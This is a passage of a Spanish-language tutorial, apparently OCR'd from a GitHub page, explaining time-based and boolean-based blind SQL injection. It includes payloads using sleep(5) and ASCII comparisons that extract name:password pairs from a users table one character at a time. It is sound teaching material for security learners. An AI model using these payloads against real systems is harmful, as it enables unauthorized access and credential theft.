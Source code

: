 #### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el tiempo para corroborar si la petición devuelve 200 OK a los 5s de ejecutarla (Indicando asi, que es TRUE)
SELECT username FROM users WHERE user_id=1241 OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)
```

### Con esta QUERY maliciosa `OR if(ascii(substr((select group_concat(name,0x3a,password) from users),1,1))=97,sleep(5),1)` estamos abusando de que el usuario 1241 no existe para verificar si esta sentencia se cumple, pidiendo que si el codigo ascii del primer caracter del conjunto de valores de "name" + 0x3a (":") + "password" es igual a 97 (Letra 'a' en codigo ascii), hagamos que la página tarde en responder 5s (sleep(5)), de lo contrario devolvemos solo un 200 OK.


- # Inyección SQL basada en booleanos:
### Este tipo de **SQLI** utiliza consultas con **expresiones booleanas** para obtener información adicioanl. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK  
SELECT username FROM users WHERE user_id=1 
-- Ahora ingresamos el usuario 1241 y devuelve 404
SELECT username FROM users WHERE user_id=1241
-- Ahora jugamos con el booleano, ya que sabemos que la primea petición no se cumple si se cumple la 2da podriamos ir deduciendo los datos
SELECT username FROM users WHERE user_id=1241 OR (select ascii(substr(group_concat(name,0x3a,password),1,1))=97)
```

### Con esta QUERY maliciosa `(select ascii(substr(group_concat(name,0x3a,password),1,1))=97)` muy similar a la condición de tiempo, estamos abusando de que el usuario 1241 no existe para corroborar si la segunda query es TRUE y asi saber los valores, en este caso seleccionamos el conjunto de datos del nombre y la contraseña para fijarnos si el primer caracter en codigo ascii es un valor '97' en codigo ascii, equivalente a una 'a', de esta manera si el primer usuario fuera admin, la primera letra del mismo seria una a, en codigo ascii 97 y la query quedaria 97=97, por lo que seria true y devolveria un 200 OK.
